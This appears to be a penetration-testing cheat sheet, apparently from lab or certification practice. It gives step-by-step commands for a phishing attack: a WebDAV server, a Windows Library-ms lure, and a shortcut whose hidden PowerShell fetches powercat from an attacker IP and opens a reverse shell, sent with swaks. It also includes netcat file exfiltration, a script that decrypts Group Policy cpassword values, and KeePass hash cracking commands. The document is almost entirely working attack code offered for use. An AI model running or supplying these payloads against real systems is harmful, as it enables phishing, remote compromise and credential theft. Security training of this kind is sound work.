 # 🔹Phishing 

### 1) Enable /webdav Server
```
python3 -m venv myenv
source myenv/bin/activate
pip3 install wsgidav
pip3 install cheroot
mkdir webdav
sudo wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root webdav/
```
### 2) Create 'config.Library-ms'
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.239</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
### 3) Create lnk file (in WINDOWS) with PS payload (powercat)
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.155/powercat.ps1');powercat -c 192.168.45.155 -p 443 -e powershell"

# Powercat
https://github.com/besimorhino/powercat/blob/master/powercat.ps1
```
### 4) Staging 
- Place `powercat.ps1`, `shortcut.lnk`, `config.Library.ms` & `body.txt` in **/Webdav**
- nc -lnvp 1337 (from **/WebDav** to get `powercat.ps1`) <-- this is wrong
- nc -lnvp 443 (to catch reverse shell when .lnk gets clicked)
- `body.txt` has to sound convincing
```
 Hi,

 please click on the attachment
```
### 5) Execution (require mail credentials)

> jim@relia -> has to be legit recipient
```
swaks -t jim@relia.com --from test@relia.com --attach @config.Library-ms --server 192.168.186.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

# 🔹Transfer files (Windows to Linux)
```
# Windows TO
PS C:\temp> cmd /c "nc64.exe 192.168.174.245 4444 < C:\Scheduler\scheduler.exe"

# Linux
nc -lnvp 4444 > scheduler.exe
```


# 🔹Groups.xml
- AKA GPP (Group Policy Preferences)
- `Groups.xml` Likely in found `SYSVOL` folder, or `machines/preferences/group` or `/preferences/group`
- This is related to domain-connected workstation
```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
We can crack the cpassword with the following python script `ggp-decrypt.py`
```
#!/usr/bin/env python3

from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import base64

if __name__ == "__main__":
    key = b"\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"
    iv = b"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0"
    cipher = AES.new(key, AES.MODE_CBC, iv)

    # CHANGE THIS CIPHER TEXT
    ciphertext = "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ=="
    ciphertext = base64.b64decode(ciphertext)

    plaintext = cipher.decrypt(ciphertext)
    plaintext = unpad(plaintext, AES.block_size)

    print(plaintext.decode())
```
To use the script do the following
```
python3 -m venv venv
. venv/bin/activate
pip3 install pycryptodome
python3 gpp-decrypt.py
```
# 🔹.kdbx, KeePass
Extract Password Hash
```
keepass2john Database.kdbx > keepass.hash
```
Crack 
```
john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash

# If we hashcat we must remember to strip off the initial “Database:” from the hash.
hashcat -m 13400 keepass.hash rockyou.txt -r rockyou-30000.rule --force
```

Transfer files from window using nc
```
Get-Content "Database.kdbx" | .\nc.exe 192.168.45.239 5555
nc -lnvp 5555 > Database.kdbx
```
